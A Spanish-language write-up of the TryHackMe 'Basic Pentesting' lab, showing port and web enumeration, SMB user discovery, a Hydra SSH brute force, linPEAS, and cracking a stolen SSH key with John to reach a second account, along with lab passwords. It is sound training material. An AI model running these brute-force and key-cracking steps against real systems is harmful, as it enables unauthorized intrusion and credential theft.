 ```yaml
---
tags:
  - eJPT
Category: Try Hack Me
title: Machine Basic pentesting
comments: "true"
image: /assets/img/machines/Basicpentesting/Basicpentestingbanner.jpeg
---
```

## Introducción
En esta máquina, realicé un proceso completo de pentesting que incluyó enumeración de puertos, análisis de servicios expuestos, enumeración web y fuerza bruta sobre el servicio SSH. Utilicé herramientas como Nmap, Gobuster y Enum4Linux para descubrir rutas ocultas y usuarios activos. Luego, con técnicas de fuerza bruta y explotación de credenciales, conseguí acceso a dos usuarios diferentes en el sistema. Finalmente, mediante la extracción y cracking de una clave privada SSH, logré escalar privilegios y acceder a información sensible, capturando la flag correspondiente.

## Skills
- Brute forcing
- Hash cracking

## Enumeración
Ejecutamos un escaneo de puertos específicos sobre los puertos 22, 80, 139 y 445. El objetivo era identificar servicios expuestos y obtener información relevante para continuar con la fase de enumeración, detectando servicios como SSH, HTTP y SMB:

```bash
❯ nmap -sCV -p 22,80,139,445 10.10.248.211
Nmap scan report for 10.10.248.211
Host is up (0.24s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87:6a:17:ed:4a:7b:81:74:ef:cd:ae:28:d4:b8:05:4d (RSA)
|   256 a5:81:26:1c:44:55:c6:c0:f4:9a:71:e9:24:21:e3:04 (ECDSA)
|_  256 ac:fd:32:0c:a3:db:9f:76:0b:33:a1:b4:21:ae:92:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
| 
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.85 seconds
```
### Enumeración WEB
Accedemos a la interfaz web del servidor a través del puerto 80, en donde se muestra un mensaje simple indicando que el sitio está en mantenimiento:

![1](/assets/img/machines/Basicpentesting/1.jpeg)


```bash
❯ gobuster dir -u http://10.10.248.211 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.248.211
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.248.211/development/]
```

Realicé una enumeración de directorios con el fin de identificar rutas ocultas en la aplicación web. Como resultado, encontré el directorio /development, lo que podría indicar la presencia de archivos de prueba o entornos de desarrollo expuestos.

![2](/assets/img/machines/Basicpentesting/2.jpeg)

Dentro de la ruta /development se encontraron dos archivos: dev.txt y j.txt. Estos archivos contienen una conversación interna del equipo, donde se destaca especialmente el servicio SMB, lo que sugiere que podría ser un punto relevante para la siguiente fase de la enumeración.


Tras identificar la importancia del servicio SMB, se procedió a realizar una enumeración exhaustiva sobre este servicio utilizando la herramienta enum4linux para obtener información detallada de los recursos compartidos, usuarios y posibles vulnerabilidades.

```bash
enum4linux -a 10.10.248.211
```

Mediante la enumeración con enum4linux, se descubrió la existencia de dos usuarios en el sistema: kay y jan, lo que permitió enfocar los siguientes pasos en obtener credenciales o acceder a recursos asociados a estas cuentas.

![3](/assets/img/machines/Basicpentesting/3.jpeg)

## Brute Forcing
Posteriormente, realicé un ataque de fuerza bruta contra el servicio SSH utilizando la herramienta Hydra, enfocándome en el usuario jan y utilizando el popular diccionario rockyou.txt para intentar descubrir la contraseña.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.248.211 ssh
```

Gracias al ataque de fuerza bruta, logré obtener la contraseña armando para el usuario jan.

```plaintext
Password: armando
```

Con la contraseña obtenida, accedí al servicio SSH usando el usuario jan. Una vez dentro, confirmé los privilegios del usuario ejecutando el comando id, el cual mostró que jan tiene un UID y GID propios, perteneciendo al grupo principal de usuario.

```bash
ssh jan@10.10.248.211
jan@ip-10-10-248-211:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)
```

Para continuar con la enumeración local, transferí la herramienta linPEAS desde mi máquina local hacia el directorio /tmp del servidor objetivo utilizando SCP, con el fin de identificar posibles vectores de escalada de privilegios.

```bash
scp linpeas.sh jan@10.10.248.211:/tmp
```

Después de transferir linPEAS, le asigné permisos de ejecución y lo lancé para realizar un escaneo automático en busca de posibles vulnerabilidades y configuraciones erróneas que pudieran permitir la escalada de privilegios.

```bash
jan@ip-10-10-248-211:/tmp$ chmod +x linpeas.sh
jan@ip-10-10-248-211:/tmp$ ./linpeas.sh
```

## Hash Cracking
La ejecución de linPEAS reveló la presencia de una clave privada SSH (id_rsa) perteneciente al usuario kay, lo cual podría facilitar el acceso a dicha cuenta si la clave no estuviera protegida por contraseña.

![4](/assets/img/machines/Basicpentesting/4.jpeg)

Luego de obtener la clave privada id_rsa del usuario kay, procedí a convertirla a un formato compatible con John the Ripper usando la herramienta ssh2john para intentar crackear la contraseña de la clave.

```bash
ssh2john kay_id_rsa > key.txt  
```

Seguidamente, utilicé John con el diccionario rockyou.txt para intentar descifrar la contraseña de la clave privada obtenida.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

Con esta técnica logré obtener la contraseña beeswax para la clave privada del usuario kay.

```bash
Password: beeswax
```

Con la contraseña recuperada, accedí por SSH como el usuario kay. Dentro de su directorio encontré un archivo llamado pass.bak, que contenía una contraseña aparentemente robusta y conforme a políticas de seguridad establecidas.

```bash
ssh -i kay_id_rsa kay@10.10.248.211
kay@ip-10-10-248-211:~$ ls
pass.bak
kay@ip-10-10-248-211:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

